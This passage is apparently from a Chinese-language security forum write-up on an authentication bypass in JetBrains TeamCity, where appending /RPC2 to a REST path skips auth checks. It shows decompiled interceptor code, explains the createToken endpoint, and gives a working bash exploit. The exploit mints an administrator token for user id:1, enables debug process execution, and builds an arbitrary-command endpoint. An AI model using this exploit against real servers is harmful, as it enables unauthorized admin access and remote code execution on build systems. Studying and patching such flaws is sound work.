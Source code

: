 ```java
        paramHttpServletRequest.setAttribute("__tc_requestStack_overflow", this);
        Throwable throwable = (new ServletException("Too much recurrent forward or include operations")).fillInStackTrace();
        paramHttpServletRequest.setAttribute("javax.servlet.jsp.jspException", throwable);
      } 
    } catch (Exception exception) {
      throw null;
    } 
    if (stack.size() == 1)
      for (HandlerInterceptor handlerInterceptor : this.myInterceptors) {
        try {
          if (!handlerInterceptor.preHandle(paramHttpServletRequest, paramHttpServletResponse, paramObject))
            return false; 
        } catch (Exception exception) {
          throw null;
        } 
      }  
    return true;
  }
```

四、漏洞利用
------

我们需要寻找在应用程序中使用了 /\*\*/RPC2 路径的端点，然后构造请求以匹配这个路径。一旦找到这样的目标端点，攻击者就可以发送请求，绕过身份验证和授权检查来执行攻击。

所以反编译了api文件：TeamCity-2023.05.3/webapps/ROOT/WEB-INF/plugins/rest-api/server/rest-api.jar，结合poc中的路径搜索/app/rest/users，确定代码位置：jetbrains.buildServer.server.rest.request.UserRequest，这里面出现了大量的占位符的url路径，这将允许我们提供/RPC2漏洞所需的 URI 部分。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-8fea5c90926ca0e2191da45e5006eca200ea7446.png)

而createToken方法允许调用者通过向端点发送 HTTP POST 请求来为指定用户创建访问令牌/app/rest/users/{userLocator}/tokens/{name}，而{name}允许结尾以/RPC2来绕过身份验证。通过将 "userLocator" 参数设置为 "id:1"，可以调用 "createToken" 方法并使用管理员用户的凭证来创建令牌。这个令牌可以用于进行授权操作或执行其他需要管理员权限的操作。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-0caafde10705fe752afb615998b39521bcf38c42.png)

所以poc如下：

可以通过/app/rest/users/端点创建管理员权限token，/app/rest/debug/processes?exePath=可以执行任意命令。

```shell
#!/bin/bash

if [ "$#" -ne 3 ]; then
    echo "Usage: $0 <base_url> <port> <command>"
    exit 1
fi

BASE_URL="$1"
PORT="$2"
COMMAND="$3"

TOKEN_ENDPOINT="${BASE_URL}:${PORT}/app/rest/users/id:1/tokens/RPC2"
EDIT_FILE_ENDPOINT="${BASE_URL}:${PORT}/admin/dataDir.html?action=edit&fileName=config/internal.properties&content=rest.debug.processes.enable=true"
RCE_ENDPOINT="${BASE_URL}:${PORT}/app/rest/debug/processes?exePath=${COMMAND}"

TOKEN_RESPONSE=$(curl -X POST "$TOKEN_ENDPOINT")
BEARER_TOKEN=$(echo "$TOKEN_RESPONSE" | grep -oP 'value="\K[^"]+')

curl -s -X POST "$EDIT_FILE_ENDPOINT" -H "Authorization: Bearer ${BEARER_TOKEN}"

```